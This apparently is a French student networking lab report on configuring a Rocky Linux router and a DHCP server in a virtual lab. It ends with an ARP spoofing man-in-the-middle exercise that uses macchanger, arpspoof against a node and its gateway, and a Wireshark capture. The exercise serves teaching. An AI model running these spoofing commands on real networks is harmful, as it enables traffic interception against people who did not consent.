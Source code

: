 ### TP2 ARP

## Configuration de router.tp2.efrei

On met une IP statique sur la carte LAN.

On a IP dynamique (DHCP) sur la carte WAN.

## Puis on Ping 1.1.1.1 pour prouver la connexion Internet

```bash
[root@localhost network-scripts]# ping 1.1.1.1

PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.

64 bytes from 1.1.1.1: icmp_seq=1 ttl=59 time=94.5 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=59 time=25.0 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=59 time=25.5 ms
64 bytes from 1.1.1.1: icmp_seq=4 ttl=59 time=25.1 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3007ms
rtt min/avg/max/mdev = 25.047/42.533/94.500/30.003 ms
```

## Configuration des interfaces réseau

```bash
[root@localhost network-scripts]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:20:e4:7f brd ff:ff:ff:ff:ff:ff
    inet 10.0.3.16/24 brd 10.0.3.255 scope global dynamic noprefixroute enp0s3
       valid_lft 86311sec preferred_lft 86311sec
    inet6 fe80::a00:27ff:fe20:e47f/64 scope link
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:91:58:0b brd ff:ff:ff:ff:ff:ff
    inet 10.2.1.254/24 brd 10.2.1.255 scope global noprefixroute enp0s8
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe91:580b/64 scope link
       valid_lft forever preferred_lft forever
```

## Configuration du routage

On configure Rocky Linux pour qu'il agisse comme un routeur :

```bash
firewall-cmd --add-masquerade
firewall-cmd --add-masquerade --permanent
```

## Configuration de node1.tp2.efrei

### Configuration IP

```bash
ip 10.2.1.1 10.2.1.254
save
```

### Test de connectivité

```bash
node1.tp2> ping 10.2.1.254
84 bytes from 10.2.1.254 icmp_seq=1 ttl=64 time=3.761 ms
84 bytes from 10.2.1.254 icmp_seq=2 ttl=64 time=4.244 ms
84 bytes from 10.2.1.254 icmp_seq=3 ttl=64 time=9.235 ms
84 bytes from 10.2.1.254 icmp_seq=4 ttl=64 time=3.816 ms

node1.tp2> ping 8.8.8.8
84 bytes from 8.8.8.8 icmp_seq=1 ttl=115 time=31.357 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=115 time=27.082 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=115 time=32.532 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=115 time=30.258 ms
```

### Traceroute

```bash
node1.tp2> trace 10.2.1.254
trace to 10.2.1.254, 8 hops max, press Ctrl+C to stop
 1   *10.2.1.254   8.181 ms (ICMP type:3, code:13, Communication administratively prohibited)
```

## CAM Table

```bash
IOU1#show mac address-table
          Mac Address Table
-------------------------------------------

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    0050.7966.6800    DYNAMIC     Et0/3
   1    0800.2791.580b    DYNAMIC     Et0/0
Total Mac Addresses for this criterion: 2
IOU1#
```

## Configuration DHCP

### Configurer une IP statique avec une gateway

```bash
DEVICE=enp0s3
NAME=ok

ONBOOT=yes
BOOTPROTO=static

IPADDR=10.2.1.253
NETMASK=255.255.255.0
GATEWAY=10.2.254

nmcli connection reload
nmcli connection up ok
```

### Installation du serveur DHCP

```bash
sudo dnf -y install dhcp-server
```

### Configuration du fichier DHCP

```bash
sudo nano /etc/dhcp/dhcpd.conf
```

Contenu :

```bash
authoritative;
subnet 10.2.1.0 netmask 255.255.255.0 {
    range 10.2.1.1 10.2.1.252;
    option broadcast-address 10.2.1.255;
    option routers 10.2.1.254;
    option domain-name-servers 8.8.8.8, 8.8.4.4, 1.1.1.1;
}
```

### Activation du service DHCP

```bash
systemctl enable --now dhcpd
```

### Test DHCP

```bash
testdhcp> dhcp
DDORA IP 10.2.1.2/24 GW 10.2.1.254

testdhcp> ping 8.8.8.8
84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=36.362 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=29.835 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=114 time=33.018 ms
```

## ARP Legit

### Table ARP de node1

```bash
node1.tp2> show arp
08:00:27:89:2d:b8  10.2.1.253 expires in 93 seconds
```

### Table ARP du serveur DHCP

```bash
[root@localhost ~]# ip n s
10.2.1.2 dev enp0s3 lladdr 00:50:79:66:68:01 STALE
10.2.1.254 dev enp0s3 lladdr 08:00:27:91:58:0b REACHABLE
10.2.1.3 dev enp0s3 lladdr 00:50:79:66:68:00 STALE
```

## ARP Spoof

### Modifier l'adresse MAC avec macchanger

```bash
sudo macchanger -m 22:22:22:22:22:22 eth0
sudo ip link set eth0 up
```

### Vérifier l'adresse MAC

```bash
ip link show eth0
```

### Test avec arping

```bash
sudo arping -c 2 -I eth0 10.2.1.3
```

### Vérification sur node1

```bash
node1.tp2> show arp
22:22:22:22:22:22  10.2.1.5 expires in 77 seconds
```

### Configurer l'IP forwarding

```bash
sudo nano /etc/sysctl.d/99-ipforward.conf
```

Ajouter :

```bash
net.ipv4.ip_forward=1
```

Appliquer la configuration :

```bash
sudo sysctl --system
```

### Lancer ARP Spoofing

```bash
sudo arpspoof -i eth0 -t 10.2.1.3 10.2.1.254 & sudo arpspoof -i eth0 -t 10.2.1.254 10.2.1.3
```

### Résultat sur node1

```bash
node1.tp2> show arp
08:00:27:80:ad:91  10.2.1.4 expires in 93 seconds
08:00:27:80:ad:91  10.2.1.254 expires in 120 seconds
```

### Test de connectivité

```bash
ping 1.1.1.1
```

## Capture Wireshark

Utilisez Wireshark pour capturer les paquets et sauvegardez la capture sous `arp_mitm.pcap`. Appliquez un filtre pour ARP et ICMP :

```plaintext
icmp || arp
